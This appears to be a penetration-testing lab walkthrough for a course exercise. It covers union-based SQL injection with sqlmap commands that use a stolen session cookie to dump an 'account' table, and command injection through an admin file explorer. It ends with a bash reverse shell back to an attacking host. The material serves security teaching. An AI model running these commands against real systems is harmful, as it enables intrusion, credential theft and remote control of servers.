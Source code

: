 # Network Security DSP

## Man In The Middle

## Cookie Stealing and Hijacking Session

## SQL injection

SQL (Structured Query Language) Injection, mostly referred to as SQLI, is an attack on a web application database server that causes malicious queries to be executed. When a web application communicates with a database using input form a user that hasn't been properly validated, there runs the potential of an attacker being able to steal, delete or alter private and customer data and also attack the web applications authentication methods to private or customer areas.
This is why as well as SQLI being one of the oldest web application vulnerabilities, it also can be most damaging.

In this scenario, it is possible to search among the products in the database using an html form. You can see that this is a GET request by looking at the URL:

* http://193.20.1.2:5000/search?nome=mela

From the URL above, you can see that the results comes from the "nome" parameter in the query string. The web application needs to retreive the article from the database and may use an SQL statement that looks something like the following:
* **SELECT all FROM table WHERE nome=mela**

You can assume that this query is to search for stored products of a table. Is there a way to explore the other tables?

### Union-Based SQL Injection

This type of injection utilises the **SQL UNION** operator alongside a **SELECT** statement to return additional results to the page. This method is the most common way of extracting large amounts of data via an SQL Injection vulnerability.

### SQLMap

It's an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over database servers.

If you are using the attacking machine that was provided to you, sqlmap is already installed. Otherwise, you can download it here: https://github.com/sqlmapproject/sqlmap

To check if the "name" parameter is vulnerable it is necessary to set the session (previously stolen) to allow sqlmap to see the /search page, to do this you need to use the following command:

**sqlmap -u "http://193.20.1.2:5000/search?nome=mela" -p nome --cookie="session=STOLEN_SESSION"**
* **-u**: Target Url
* **-p**: Testable parameter(s)
* **--cookie**: HTTP cookie header value

After that we can proceed to inspect the databases:

**sqlmap -u "http://193.20.1.2:5000/search?nome=mela" -p nome --cookie="session=STOLEN_SESSION" --tables**
* **--tables**: Enumaret DBMS database tables

It turns out that there is a database called "networkSecurity" with a table called "account". The last step is to see the contents of this table:

**sqlmap -u "http://193.20.1.2:5000/search?nome=mela" -p nome --cookie="session=STOLEN_SESSION" -D networkSecurity -T account --dump**
* **-D**: DBMS database to enumerate
* **-T**: DBMS database table(s) to enumerate
* **--dump**: Dump DBMS database table entries

## Command Injection

**Command Injection** is an attacck in wich the goal is execution of arbitrary commands on the host operating system via a vulnerable application. These attacks are possible when an application passes unsafe user supplied data (forms, cookies, HTTP headers etc.) to a system shell. In this attack, the attacker-supplied operating system command are usually executed with the privileges of the vulnerable application. Command injection attacks are possible largely due to insufficient input validation.

Having logged in with the admin credentials, you are redirected to the /admin page. You may notice a form that says "*Explore your File System*", using this feature the admin can navigate through the folders containing the source codes for the web application. It is possible to assume that the web application uses a function to launch commands that will be executed by the shell.
The command being executed probably looks something like this:
* **"ls -l " + input**

The current goal is to find a way to execute malicious commands by taking advantage of possible poor input validation, to do this we can use the pipe command.

### Pipe Command
A pipe is an aspect of redirection i.e., transfer of any standard output to another target path which is commonly used in Unix and Linux-like operating systems in order to send the outputs of one process/command/program to another/program/command/process for any further processing. The Linux/Unix system enables stdout of a command to connect to stdin of other commands, which we can do by the pipe character ‘|.’

### && Operator in Linux

The Bash logical (&&) operator is one of the most useful commands that can be used in multiple ways, like you can use in the conditional statement or execute multiple commands simultaneously. Generally speaking, the logical operator is the one that is used to connect more than one expression and then provides the output based on their combined result.

These are just some of the possible ways to chain multiple commands, you can do an initial test with the *whoami* command:
* **ls -l | whoami**

### Reverse Shell
It is possible to have the server open a terminal to our attacking machine. To do this, you can open a shell to a remote address with a simple terminal command:
* **bash -i >& /dev/tcp/IP_ADDRESS/PORT**

You need to listen on the attacking machine in order to accept the server connection. We use the netcat tool to do this:
* **nc -lnvp PORT** (you can choose any free port)

Thanks to command injection, we can open a remote shell on our attacking machine by typing the command:
* **bash -c "bash -i >& /dev/tcp/193.20.1.4/PORT 0>&1"**

In this case, the server does not use the **/bin/bash** shell by default, so you need to invoke it with the -c flag to specify which command it should execute. If everything went well, the server will get stuck loading the page, and a remote shell will open on your terminal.
## Privilege Escalation

## Cracking Password
